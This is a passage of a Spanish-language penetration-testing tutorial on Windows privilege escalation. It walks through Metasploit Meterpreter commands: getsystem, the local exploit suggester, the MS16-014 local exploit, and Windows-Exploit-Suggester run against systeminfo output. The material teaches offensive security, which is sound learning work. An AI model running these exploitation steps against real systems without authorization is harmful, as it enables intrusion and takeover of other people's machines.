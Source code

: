 ```bash
meterpreter > getsystem
```

Si con esto no conseguimos permisos de administrador, tenemos que hacerlo paso a paso. Ponemos la sesión meterpreter en segundo plano y vamos a usar un módulo muy útil que enumera todas las vulnerabilidades de esta versión del SO:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <num sesión meterpreter>
run
```

A continuación, buscamos información sobre cada módulo que se nos lista para determinar cuál se adapta mejor a nuestro objetivo. En este ejemplo utilizamos el siguiente:

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION <num sesión meterpreter>
set LPORT <puerto libre localhost>
run
```

Si todo está correcto, en este punto deberíamos tener una sesión meterpreter con permisos elevados.

Ahora vamos a hacer una escalada de privilegios manual con **Windows-Exploit-Suggester**. Una vez dentro de la sesión meterpreter, pasamos a una sesión “shell” con el siguiente comando:

```bash
meterpreter > shell
```

Ahora necesitamos obtener toda la información posible del sistema objetivo, para ello, introducimos este comando:

```bash
systeminfo
```

A continuación, copiamos la información de la salida en un archivo de texto. Esta información es vital para determinar que exploits son óptimos para esta versión de windows. Copiamos el texto y finalizamos la shell con “ctrl+c” para volver a la sesión meterpreter.

Seguidamente, en otra ventana de terminal creamos un fichero que se llame, por ejemplo, “Windows7.txt”, y pegamos la salida de systeminfo.

Ahora, vamos al directorio donde clonamos el repositorio de GitHub de la herramienta Windows-Exploit-Suggester e introducimos el siguiente comando para descargar una nueva base de datos con vulnerabilidades actualizada:

```bash
./windows-exploit-suggester.py —update
```

Entonces, lanzamos el siguiente comando:

```bash
./windows-exploit-suggester.py --database <base_datos.xls> --systeminfo <ruta_Windows7.txt>
```
